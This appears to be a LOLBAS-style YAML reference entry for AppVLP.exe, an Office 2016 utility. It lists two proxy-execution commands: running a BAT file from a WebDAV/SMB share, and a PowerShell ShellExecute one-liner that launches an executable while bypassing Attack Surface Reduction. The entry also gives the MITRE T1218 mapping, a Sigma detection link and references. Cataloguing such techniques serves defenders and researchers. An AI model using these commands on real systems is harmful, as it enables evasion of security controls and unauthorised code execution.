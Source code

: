 ```yaml
---
Name: Appvlp.exe
Description: Application Virtualization Utility Included with Microsoft Office 2016
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: AppVLP.exe {PATH_SMB:.bat}
    Usecase: Execution of BAT file hosted on Webdav server.
    Description: Executes calc.bat through AppVLP.exe
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 10 w/Office 2016
    Tags:
      - Execute: CMD
  - Command: AppVLP.exe powershell.exe -c "$e=New-Object -ComObject shell.application;$e.ShellExecute('{PATH:.exe}','', '', 'open', 1)"
    Usecase: Local execution of process bypassing Attack Surface Reduction (ASR).
    Description: Executes powershell.exe as a subprocess of AppVLP.exe and run the respective PS command.
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 10 w/Office 2016
    Tags:
      - Execute: EXE
Full_Path:
  - Path: C:\Program Files\Microsoft Office\root\client\appvlp.exe
  - Path: C:\Program Files (x86)\Microsoft Office\root\client\appvlp.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_lolbin_appvlp.yml
Resources:
  - Link: https://github.com/MoooKitty/Code-Execution
  - Link: https://twitter.com/moo_hax/status/892388990686347264
  - Link: https://enigma0x3.net/2018/06/11/the-tale-of-settingcontent-ms-files/
  - Link: https://securityboulevard.com/2018/07/attackers-test-new-document-attack-vector-that-slips-past-office-defenses/
Acknowledgement:
  - Person: fab
    Handle: '@0rbz_'
  - Person: Will
    Handle: '@moo_hax'
  - Person: Matt Wilson
    Handle: '@enigma0x3'
---
```

